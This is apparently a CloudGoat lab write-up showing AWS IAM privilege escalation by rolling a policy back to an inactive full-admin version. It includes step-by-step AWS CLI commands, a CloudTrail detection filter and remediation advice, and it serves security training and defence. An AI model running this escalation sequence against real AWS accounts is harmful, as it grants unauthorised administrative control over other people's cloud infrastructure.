

# CloudGoat Lab: iam_privesc_by_rollback
### IAM Policy Version Abuse for Privilege Escalation

**Platform:** [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) by Rhino Security Labs  
**Difficulty:** Easy  
**Author:** Justin Steele

---

## Background

This lab focuses on a subtle but dangerous IAM privilege escalation technique: AWS allows up to 5 versions of an IAM policy to exist simultaneously, but only one is active at a time. If a high-privilege version was created and deactivated without being deleted, any user with `iam:SetDefaultPolicyVersion` can silently roll back to it.

What makes this attack dangerous is what it *doesn't* do — no new resources, no new policies, no new role assignments. Just a single API call that flips which version of an existing policy is active.

---

## Attack Chain



---

## Walkthrough

### Step 1 — Confirm Identity

```bash
aws sts get-caller-identity --profile raynor
```

Always start here. The ARN tells you whether you're a user or a role, and gives you the username you'll need for enumeration.

**Result:** `arn:aws:iam::223367517417:user/raynor-cgidf8mpkdguut`

---

### Step 2 — Enumerate Attached Policies

```bash
aws iam list-attached-user-policies \
  --user-name raynor-cgidf8mpkdguut \
  --profile raynor
```

**Result:** One policy — `cg-raynor-policy-cgidf8mpkdguut`

---

### Step 3 — List All Policy Versions

```bash
aws iam list-policy-versions \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --profile raynor
```

**Result:** 5 versions. v1 is active. v2-v5 are sitting there inactive.

---

### Step 4 — Read Each Version

```bash
aws iam get-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --version-id v3 \
  --profile raynor
```

| Version | Permissions |
|---------|-------------|
| v1 (active) | Low privilege — limited actions |
| v2 | Deny everything except two specific IP ranges |
| **v3** | **Allow Action:\* on Resource:\* — full admin** |
| v4 | Restricted |
| v5 | Restricted |

v3 is the target.

---

### Step 5 — Roll Back to v3

```bash
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-raynor-policy-cgidf8mpkdguut \
  --version-id v3 \
  --profile raynor
```

No output = success. Verify with `list-policy-versions` — v3 now shows `IsDefaultVersion: true`.

---

### Step 6 — Verify Full Access

```bash
aws iam list-users --profile raynor
```

Before the escalation this would have returned Access Denied. Now it returns all IAM users in the account. Privilege escalation confirmed.

---

## Why This Is Dangerous

Three reasons this attack is particularly nasty:

**It's quiet.** No new IAM users, no new policies attached, no new roles created. An alert watching for "admin policy attached" won't fire.

**It's fast.** Five CLI commands from credentials to full admin. Under a minute if you know the technique.

**`iam:SetDefaultPolicyVersion` looks harmless.** It doesn't obviously scream "dangerous permission" during an IAM review. A lot of orgs miss it.

---

## Detection

### CloudTrail Alert on SetDefaultPolicyVersion

Every call to `SetDefaultPolicyVersion` is logged as a management event. See [`detections/cloudwatch_alarm.sh`](detections/cloudwatch_alarm.sh) for the full setup script.

```bash
# The key filter pattern
{ $.eventName = "SetDefaultPolicyVersion" }
```

### IAM Access Analyzer

Would flag v3 immediately if it became active — `Action:*` on `Resource:*` is an obvious finding.

### AWS Config

Can continuously evaluate whether policies have multiple versions. If a policy has more than 1 version, treat it as a finding.

---

## Remediation

See [`remediation/fix_policy_versions.sh`](remediation/fix_policy_versions.sh) for an automated cleanup script.

| Priority | Fix |
|----------|-----|
| 🔴 Critical | Delete all unused policy versions immediately |
| 🔴 Critical | Remove `iam:SetDefaultPolicyVersion` from non-admin users |
| 🟠 High | Audit all policies for versions with `Action:*` on `Resource:*` |
| 🟠 High | Alert on all `SetDefaultPolicyVersion` API calls in CloudTrail |
| 🟡 Medium | Enable IAM Access Analyzer for continuous policy scanning |
| 🟡 Medium | Enforce least-privilege on all IAM users |

---

## Root Cause

Two small misconfigurations that stack into full account compromise:

1. Old policy versions were never cleaned up after being deactivated
2. `iam:SetDefaultPolicyVersion` was granted to a low-privilege user

---

## Tools Used

- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) — vulnerable-by-design AWS environment
- Terraform — infrastructure provisioning
- AWS CLI — enumeration and exploitation

---

*Built on CloudGoat by Rhino Security Labs. Scenario: `iam_privesc_by_rollback`.*
